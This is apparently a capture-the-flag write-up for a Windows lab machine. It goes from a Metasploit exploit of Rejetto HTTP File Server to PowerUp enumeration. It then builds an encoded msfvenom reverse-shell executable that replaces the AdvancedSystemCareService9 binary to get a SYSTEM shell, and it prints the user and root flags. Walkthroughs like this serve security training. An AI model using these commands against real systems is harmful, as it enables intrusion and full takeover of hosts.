

Employee Name

--------------------------------------------------------------------------------------------------------------
Gained Root shell with
> msfconsole
> search rejetto
> use 0
using port 8080 got rejetto http file server
https://www.exploit-db.com/exploits/39161
=================================================
UserFlag:
b04763b6fcf51fcd7c13abc7db4fd365
================================================
upload powerup.ps1
> . .\PowerUp.ps1
> Invoke-AllChecks
The UserEsc strategy- We are gonna replace a reverse shell inside the Service that can restart which happens to be AdvancedSystemCareService9
- so we make a msf reverse shell
- > msfvenom -p windows/shell_reverse_tcp LHOST=<ur ip> LPORT=5555 -e x86/shikata_ga_nai -f exe -o ASCService.exe
- now upload it over meterpreter into the Programs Files (x86)/IObit
- C:\> sc stop AdvancedSystemCareService9
- C:\> COPY ASCService.exe "Advanced SystemCare"
- *** this replaces the actual service
- C:\> sc start AdvancedSystemCareService9
- boom catch the shell with another listener
==================================================
Root Flag:- 9af5f314f57607c00fd09803a587db80
==================================================